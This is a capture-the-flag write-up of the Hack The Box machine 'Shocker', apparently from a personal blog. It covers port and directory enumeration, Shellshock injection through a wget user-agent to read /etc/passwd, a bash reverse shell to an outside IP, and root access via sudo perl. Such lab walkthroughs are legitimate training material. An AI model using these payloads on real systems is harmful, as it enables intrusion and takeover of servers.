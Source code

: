 ```yaml
---
title: Shocker
date: 2023-02-04 09:45:47 +07:00
modified: 2023-02-04 09:45:47 +07:00
tags: [Shellshock, Shocker, Hackthebox, Writeup]
description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
image: https://photos.squarezero.dev/file/abir-images/Shocker/logo.png
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Shocker/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Cronos</font>

​		3<sup>th</sup> October 2017

​		Machine Author(s): [mrb3n](https://app.hackthebox.com/users/2984)

​		

### Description:

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock
exploit, which affected millions of public-facing servers.

### Difficulty:

`Easy`

# Enumeration

At first, I did a Nmap scan for open ports and services.

`nmap -sC -sV -p- 10.10.1.235 -oG shocker`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.png)

|Ports|Service
|80| Apache httpd 2.4.18 ((Ubuntu))
|2222| OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

I visit the website But there is nothing interesting.

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I start enumerating websites using [FFUF]()

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/FUZZ" -ic`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.1.png)

I found [cgi-bin](). Next I did directory enumaration using common extention.

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/cgi-bin/FUZZ" -e .sh,.php,.html`

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I found [user.sh](). 

![](https://photos.squarezero.dev/file/abir-images/Shocker/3.png)

After opening the file I saw the file is executing in the webserver.

![](https://photos.squarezero.dev/file/abir-images/Shocker/03.png)

# Foothold

After looking for sometime I figureout this is a [shellshock]() vulnerability. 

I found the following artical useful. [Exploit](https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited)

Lets see if we can read `/etc/passwd`.

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/4.png)

After opening the file we can see the commands are being executed. 
![](https://photos.squarezero.dev/file/abir-images/Shocker/5.png)

So, I decided to use a bash reverseshell. And after execution I got a connection back.


`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.37/9000 0>&1" http://10.129.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/6.png)

![](https://photos.squarezero.dev/file/abir-images/Shocker/7.png)

# Privilege Escalation

I check what I can run as sudo. 

![](https://photos.squarezero.dev/file/abir-images/Shocker/8.png)

I can run [perl](). I checked [GTFOBins](https://gtfobins.github.io/) and used following to get root access.



`sudo perl -e 'exec "/bin/bash";'`

![](https://photos.squarezero.dev/file/abir-images/Shocker/9.png)

